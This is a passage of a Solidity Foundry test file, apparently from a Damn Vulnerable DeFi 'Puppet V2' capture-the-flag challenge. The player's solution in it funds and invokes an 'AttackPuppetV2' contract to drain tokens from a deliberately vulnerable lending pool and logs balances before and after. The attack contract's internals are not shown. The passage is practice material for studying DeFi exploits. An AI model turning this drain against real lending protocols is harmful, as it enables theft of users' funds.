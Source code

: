 ```solidity
        token.transfer(address(lendingPool), POOL_INITIAL_TOKEN_BALANCE);

        vm.stopPrank();
    }

    /**
     * VALIDATES INITIAL CONDITIONS - DO NOT TOUCH
     */
    function test_assertInitialState() public view {
        assertEq(player.balance, PLAYER_INITIAL_ETH_BALANCE);
        assertEq(token.balanceOf(player), PLAYER_INITIAL_TOKEN_BALANCE);
        assertEq(token.balanceOf(address(lendingPool)), POOL_INITIAL_TOKEN_BALANCE);
        assertGt(uniswapV2Exchange.balanceOf(deployer), 0);

        // Check pool's been correctly setup
        assertEq(lendingPool.calculateDepositOfWETHRequired(1 ether), 0.3 ether);
        assertEq(lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE), 300000 ether);
    }

    /**
     * CODE YOUR SOLUTION HERE
     */
    function test_puppetV2() public checkSolvedByPlayer {
        emit log("-------------------------- Before exploit --------------------------");
        emit log_named_decimal_uint(
            "token balance in the lendingPool contract", token.balanceOf(address(lendingPool)), token.decimals()
        );
        emit log_named_decimal_uint(
            "token balance in the recovery address", token.balanceOf(recovery), token.decimals()
        );

        AttackPuppetV2 maliciousContract = new AttackPuppetV2(
            address(uniswapV2Exchange),
            address(lendingPool),
            address(uniswapV2Router),
            address(token),
            address(weth),
            recovery
        );

        uint256 amount = 19.9 ether; // leave some ether to pay eth
        weth.deposit{value: amount}();
        weth.transfer(address(maliciousContract), amount);
        token.transfer(address(maliciousContract), PLAYER_INITIAL_TOKEN_BALANCE);

        maliciousContract.attack(PLAYER_INITIAL_TOKEN_BALANCE, 9.9 ether);

        emit log("-------------------------- After exploit --------------------------");
        emit log_named_decimal_uint(
            "token balance in the lendingPool contract", token.balanceOf(address(lendingPool)), token.decimals()
        );
        emit log_named_decimal_uint(
            "token balance in the recovery address", token.balanceOf(recovery), token.decimals()
        );
    }

    /**
     * CHECKS SUCCESS CONDITIONS - DO NOT TOUCH
     */
    function _isSolved() private view {
```
